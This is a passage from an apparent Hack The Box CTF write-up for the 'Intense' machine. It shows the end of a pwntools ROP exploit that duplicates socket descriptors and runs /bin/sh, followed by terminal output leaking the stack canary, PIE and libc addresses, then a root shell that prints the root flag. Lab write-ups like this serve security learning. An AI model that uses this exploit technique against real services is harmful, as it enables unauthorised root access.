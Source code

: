 ```python
p = remote("127.0.0.1", 5001) # Reconnect
rop = ROP(libc)
binsh = next(libc.search(b"/bin/sh\x00"))
rop.dup2(4, 0)
rop.dup2(4, 1)
rop.execv(binsh, 0)
doRop(rop)

p.interactive()
```

Copied and cleaned up the code from the official writeup, then ran it TODO: explain what it does

### Root.txt

```text
┌──(zweilos㉿kali)-[~/htb/intense]
└─$ python3 ./pwn-note_server2.py
[*] '/home/zweilos/htb/intense/note_server'
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
[+] Opening connection to 127.0.0.1 on port 5001: Done
[+] Leaked canary: 0x9b61993eb04bed00
[+] PIE leak : 0x5608ae82cf54
[+] Opening connection to 127.0.0.1 on port 5001: Done
[*] Loaded 14 cached gadgets for './note_server'
[+] Libc leak : 0x7fa1096c5070
[+] Opening connection to 127.0.0.1 on port 5001: Done
[*] Loading gadgets for '/home/zweilos/htb/intense/libc.so.6'
[*] Switching to interactive mode
$ id
uid=0(root) gid=0(root) groups=0(root)
$ hostname
intense
$ cat /root/root.txt
b3e42063bf6316157da49cbfae5e21d7
```

sdg
